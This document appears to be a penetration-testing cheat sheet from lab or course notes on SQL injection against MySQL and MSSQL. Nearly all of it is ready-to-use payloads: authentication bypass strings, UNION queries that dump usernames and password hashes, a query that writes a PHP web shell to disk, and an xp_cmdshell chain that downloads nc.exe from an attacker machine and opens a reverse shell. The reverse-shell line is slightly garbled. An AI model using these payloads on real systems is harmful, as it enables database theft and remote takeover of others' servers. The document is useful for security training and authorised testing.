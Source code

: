 # SQL

## MySQL

{% code title="Connecting to the remote MySQL instance" overflow="wrap" lineNumbers="true" %}
```
mysql -u root -p'root' -h 192.168.50.16 -P 3306
select version();
select system_user();
show databases;
```
{% endcode %}

{% code title="Inspecting user's encrypted password" overflow="wrap" lineNumbers="true" %}
```
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```
{% endcode %}

### SQLi

```
' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

{% code title="using CAST" overflow="wrap" lineNumbers="true" %}
```
weight=12&height=12'UNION+SELECT+null,CAST(passwd+AS+int),null,null,null,null+from+pg_shadow--&age=12&gender=Male&email=test%40t.com
```
{% endcode %}

## MSSQL

{% code title="Connecting to the Remote MSSQL instance via Impacket" overflow="wrap" lineNumbers="true" %}
```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;
```
{% endcode %}

UNION-based payloads

{% code title="Verifying the exact number of columns" overflow="wrap" lineNumbers="true" %}
```
' ORDER BY 1-- //
```
{% endcode %}

{% code title="Enumerating the Database via SQL UNION Injection and fixing the injection" overflow="wrap" lineNumbers="true" %}
```
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
```
{% endcode %}

{% code title="Retrieving Current Database Tables and Columns" overflow="wrap" lineNumbers="true" %}
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //
```
{% endcode %}

### _xp\_cmdshell_

{% code title="Enabling xp_cmdshell feature" overflow="wrap" lineNumbers="true" %}
```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
{% endcode %}

{% code title="Executing Commands via xp_cmdshell" overflow="wrap" lineNumbers="true" %}
```
SQL> EXECUTE xp_cmdshell 'whoami';
output

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

nt service\mssql$sqlexpress

NULL
```
{% endcode %}

{% code title="Write a WebShell To Disk via INTO OUTFILE directive" overflow="wrap" lineNumbers="true" %}
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
{% endcode %}

{% code title="Accessing the webshell" overflow="wrap" lineNumbers="true" %}
```
curl http://192.168.42.12/tmp/webshell.php?cmd=id
```
{% endcode %}

### xp\_cmdshell 10.3.22 Q7 lab

{% hint style="info" %}
[https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp\_cmdshell/](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp\_cmdshell/)
{% endhint %}

{% code title="Payload to test for time based vulnerability" overflow="wrap" lineNumbers="true" %}
```
'WAITFOR+DELAY+'0:0:5'--
```
{% endcode %}

{% code title="Test if time based vulnerability is working; checked multiple times until identified the correct number of columns" overflow="wrap" lineNumbers="true" %}
```
'UNION+SELECT+1,2,3,4,5;WAITFOR+DELAY+'0:0:5'--
'UNION+SELECT+1,2,3,4;WAITFOR+DELAY+'0:0:5'--
'UNION+SELECT+1,2,3;WAITFOR+DELAY+'0:0:5'--
'UNION+SELECT+1,2;WAITFOR+DELAY+'0:0:5'--
```
{% endcode %}

<pre data-title="Sequential payloads to enable xp_cmdshell" data-overflow="wrap" data-line-numbers><code><strong>'UNION+SELECT+1,2;EXEC+sp_configure+'show+advanced+options',+1--
</strong>'UNION+SELECT+1,2;RECONFIGURE--
<strong>'UNION+SELECT+1,2;EXEC+sp_configure+'xp_cmdshell',+1--
</strong><strong>'UNION+SELECT+1,2;RECONFIGURE--
</strong></code></pre>

{% code title="Payload to test xp_cmdshell has been configured and is working; test with tcpdump on attacker VM" overflow="wrap" lineNumbers="true" %}
```
'UNION+SELECT+1,2;EXEC+xp_cmdshell+'ping+192.168.45.194'--
```
{% endcode %}

{% code title="Payload to download nc.exe from attack VM" overflow="wrap" lineNumbers="true" %}
```
'UNION+SELECT+1,2;EXEC+xp_cmdshell+'powershell.exe+wget+http://192.168.45.194/nc.exe+-OutFile+c:\\Users\Public\\nc.exe'--
```
{% endcode %}

{% code title="Final payload to get reverse shell" overflow="wrap" lineNumbers="true" %}
```
'UNION+SELECT+1,2;EXEC+xp_cmdshell+'c:\\Users\Public\\nc.exe+-e+cmd.exe+192.168.45.194+type gl4444'--
```
{% endcode %}

## Blind SQL injections

{% code title="Testing for time-based SQLi" overflow="wrap" lineNumbers="true" %}
```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
{% endcode %}
